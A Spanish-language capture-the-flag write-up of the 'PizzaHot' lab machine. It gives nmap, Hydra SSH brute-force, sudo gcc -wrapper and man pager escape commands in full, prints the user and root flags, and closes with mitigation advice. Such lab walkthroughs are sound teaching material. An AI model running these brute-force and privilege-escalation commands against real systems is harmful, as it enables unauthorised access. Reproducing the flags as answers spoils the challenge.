### Información General

|Campo|Detalle|
|---|---|
|Plataforma|TheHackersLabs|
|Máquina|PizzaHot|
|IP|192.168.241.182|
|Dificultad|Fácil|
|Sistema Operativo|Linux (Debian)|
|Servicios|SSH (22), HTTP (80)|
|Vector inicial|Usuario filtrado en comentario HTML + fuerza bruta SSH (Hydra)|
|Escalada de privilegios|`sudo` sobre `gcc -wrapper` → pivote a `pizzasinpiña` → `sudo NOPASSWD` sobre `man` (GTFOBins) → root|

### Resumen del Ataque

El reconocimiento inicial mostró solo SSH y HTTP, este último sirviendo una plantilla de restaurante ("Pizzahot") basada en Bootstrap. Revisando el código fuente HTML apareció un comentario dejado por el desarrollador que filtraba el nombre de un usuario del sistema: `pizzapiña`. Con ese nombre de usuario fijo, un ataque de fuerza bruta con Hydra contra SSH usando rockyou.txt encontró la contraseña `steven`. Tras acceder como `pizzapiña`, la flag de usuario resultó ser una broma ("sigue buscando"), indicando que el flag real pertenecía a otro usuario del sistema (`pizzasinpiña`). `sudo -l` reveló permiso para ejecutar `gcc` como `pizzasinpiña`, que se abusó con la opción `-wrapper` para obtener una shell como ese usuario y así sí acceder al `user.txt` real. Desde ahí, un nuevo `sudo -l` mostró NOPASSWD sobre `/usr/bin/man`, un binario listado en GTFOBins para escapar a una shell de root a través del paginador interno.

### Técnicas Usadas

- Escaneo de puertos con Nmap (`-p-`, `-sC -sV`)
- Análisis de código fuente HTML para descubrir información filtrada por el desarrollador (nombre de usuario en comentario)
- Fuerza bruta de contraseña SSH con Hydra contra usuario conocido
- Abuso de `sudo` sobre `gcc -wrapper` para pivotar a otro usuario (GTFOBins)
- Abuso de `sudo NOPASSWD` sobre `man` para escalar a root (GTFOBins)

### Desarrollo

**1. Escaneo de puertos completo**

```
sudo nmap -p- -sS --min-rate 5000 -n -vvv -Pn -oN ports 192.168.241.182
```



**2. Detección de versiones y scripts**

```
nmap -p 22,80 -sC -sV -oN allports 192.168.241.182
```



**3. Revisión web**

```
http://192.168.241.182/
```

Plantilla de restaurante "Pizzahot" (template Yummy de BootstrapMade).


**4. Revisión del código fuente HTML**

Dentro del `<header>`, entre el código del menú y el cierre del `<div>`, aparece un comentario del desarrollador:



Esto filtra directamente un nombre de usuario válido del sistema: `pizzapiña`.

**5. Fuerza bruta SSH contra el usuario filtrado**

```
hydra -l pizzapiña -P /usr/share/wordlists/rockyou.txt ssh://192.168.241.182 -t 64
```



**6. Acceso SSH como pizzapiña**

```
ssh pizzapiña@192.168.241.182
```

```
pizzapiña@pizzahot:~$ whoami
````



**7. Enumeración de usuarios con shell**

```
pizzapiña@pizzahot:~$ grep bash /etc/passwd
````



Existe un segundo usuario, `pizzasinpiña`, que resultará relevante más adelante.

**8. Flag de usuario falsa (troll)**

```
pizzapiña@pizzahot:~$ cat user.txt 
```



El contenido de `user.txt` no es una flag real, sino una pista de que hay que seguir escalando hacia otro usuario.

**9. Revisión de privilegios sudo de pizzapiña**

```
pizzapiña@pizzahot:~$ sudo -l
```



**10. Pivote a pizzasinpiña abusando de gcc -wrapper**

```
pizzapiña@pizzahot:~$ sudo -u pizzasinpiña /usr/bin/gcc -wrapper /bin/bash,-s x
```

```
pizzasinpiña@pizzahot:/home$ cd pizzasinpiña
pizzasinpiña@pizzahot:~$ whoami
```



**11. Flag de usuario**

```
pizzasinpiña@pizzahot:~$ cat user.txt 
30b8126445b2c50488528c8a78416b0d
```



**12. Revisión de privilegios sudo de pizzasinpiña**

```
pizzasinpiña@pizzahot:~$ sudo -l
```



**13. Escalada a root abusando de man**

```
pizzasinpiña@pizzahot:~$ sudo -u root /usr/bin/man man
```

Dentro del paginador, se ejecuta:

```
!/bin/bash
```



```
root@pizzahot:/home/pizzasinpiña# whoami
```



**14. Flag de root**

```
root@pizzahot:/home/pizzasinpiña# cd /root
root@pizzahot:~# cat root.txt 
b41668f520aa366c275391ddd0a47683
````



### Lecciones Aprendidas

- Los comentarios dejados en el código fuente HTML/CSS/JS durante el desarrollo son una fuente habitual y muy pasada por alto de fuga de información (nombres de usuario, rutas internas, credenciales de prueba).
- Delegar permisos `sudo` sobre compiladores como `gcc` con `-wrapper` (o flags equivalentes de ejecución) equivale a ejecución de comandos arbitrarios como el usuario objetivo.
- `man`, igual que muchos otros paginadores/editores, hereda privilegios y permite escapar a una shell (`!comando`) si se ejecuta con `sudo`; está catalogado en GTFOBins precisamente por esto.
- Una escalada de privilegios puede requerir varios pivotes intermedios entre usuarios de bajo privilegio antes de llegar a root.

### Medidas de Mitigación

- Eliminar del código fuente en producción cualquier comentario de desarrollo, especialmente los que mencionen usuarios, credenciales o rutas internas.
- Nunca otorgar `sudo` sobre compiladores, interpretes o paginadores (`gcc`, `python`, `man`, `less`, `vim`, etc.) salvo que sea estrictamente necesario, y en ese caso restringir argumentos y capacidades mediante `sudoers` (`Cmnd_Alias`, sin comodines) o AppArmor/SELinux.
- Auditar periódicamente la configuración de `sudo -l` de cada usuario contra el listado de GTFOBins.
- Aplicar políticas de contraseñas robustas para evitar que la fuerza bruta contra SSH tenga éxito incluso conociendo el nombre de usuario.

